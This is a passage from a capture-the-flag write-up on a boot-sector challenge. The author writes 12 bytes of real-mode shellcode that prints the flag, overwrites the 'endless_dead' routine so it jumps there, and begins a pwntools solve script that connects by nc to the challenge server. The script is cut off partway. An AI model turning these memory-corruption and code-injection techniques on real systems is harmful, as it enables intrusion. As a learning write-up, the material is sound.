 So, I can write shellcode into somewhere that can leak the flag and modify `endless_dead` jumping into the shellcode.

The problem is that in `sub_37`, it compares the value of the scan code ( `ah` ) instead of the character ( `al`).

After asking the chatGPT, I know that typing the up arrow key makes `ah = 0x48`, the down one makes `ah = 0x50`.

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/521a6421-2320-46a8-b92a-59d92ec13056)

At the first time, I had tried to write the shellcode at 0x7c67 ( offset = 0x63 ).

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/dbc838ab-4382-4674-acfa-75f28dc5b20e)

But it returned `ah = 0x48 ` and `al = 0x0`, I did't know why so I decided to write the shellcode at `0x7c09` ( offset = 5 ), the max size of the shellcode is 13 bytes
because the `start` function is at `0x7c16`.

Luckily, the size of the shellcode is 12-byte.
```nasm
mov si, 0x7dc6
t:
mov al, [si]
mov ah, 0x0E
int 0x10
inc si
jmp t 
```

So, the way I used was that writting the shellcode into `0x7c09` and modifing the `endless_dead` jumping into `0x7c09`.

Final script:
```python
from pwn import *
from time import sleep

UP = b'\033[A'
DOWN = b'\033[B'
PREV = [0xFA, 0x31, 0xC0, 0x8E, 0xD8, 0x8E,
        0xC0, 0x8E, 0xD0, 0xBC, 0xFF, 0xFF, 0xFB]

"""
mov si, 0x7dc6
t:
mov al, [si]
mov ah, 0x0E
int 0x10
inc si
jmp t 
"""
SHELLCODE = [190, 198, 125, 138, 4, 180, 14, 205, 16, 70, 235, 0xf7]

if args.REMOTE:
    p = process(["bash", "-c", "nc 13.201.224.182 30297"])
else:
    p = process(["./run.sh"])

p.recv()

pause()


def add_one(offset):
    p.send(p8(offset+ord('0')))
    p.send(UP)
```